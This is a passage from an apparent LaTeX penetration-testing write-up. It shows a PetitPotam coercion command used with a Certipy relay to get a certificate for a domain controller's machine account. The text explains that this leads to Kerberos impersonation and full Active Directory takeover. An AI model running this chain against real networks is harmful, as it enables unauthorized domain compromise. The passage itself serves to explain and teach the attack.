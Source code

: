 Now that Certipy is properly configured to relay connections using the correct template, we can move on to forcing the domain controller to authenticate against our server with PetitPotam.
\begin{notebox}
\begin{verbatim}
    python3 PetitPotam.py -u {USERNAME} -p {PASSWORD} {LISTENER_IP_ADDRESS} {TARGET_IP_ADDRESS}}
\end{verbatim}
\end{notebox}
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{petitpotam.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
Once Certipy captures the incoming authentication, it relays it to the Certificate Authority (CA) and requests a certificate on behalf of the domain controller's machine account. This is dangerous because the certificate can then be used for Kerberos authentication, effectively allowing the attacker to impersonate the domain controller itself. With that level of access, the attacker can issue Kerberos tickets, impersonate any account in the domain, and ultimately take full control of the Active Directory environment.
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{petitpotam1.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}

